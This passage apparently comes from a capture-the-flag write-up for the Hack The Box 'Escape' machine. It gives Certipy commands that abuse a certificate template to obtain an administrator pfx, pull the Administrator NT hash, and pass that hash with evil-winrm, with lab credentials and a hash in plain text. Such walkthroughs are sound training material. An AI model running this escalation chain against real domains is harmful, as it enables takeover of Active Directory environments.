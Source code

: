 ```bash
certipy req -u "ryan.cooper" -p "NuclearMosquito3" -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn administrator@sequel.htb -ns 10.129.228.253 -target-ip 10.129.228.253
```

![image.png](/assets/images/Escape_HTB/image%2020.png)

Successfully grabbed the pfx for the administrator !!

Now authenticating with the pfx file.

```bash
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.228.253
```

![image.png](/assets/images/Escape_HTB/image%2021.png)

Successfully retrieved the NT hash for the Administrator.

### PassTheHash (PTH)

Now we do the pass the hash attack with user as Administrator.

```bash
evil-winrm -i sequel.htb -u administrator -H 'a52f78e4c751e5f5e17e1e9f3e58f4ee'
```

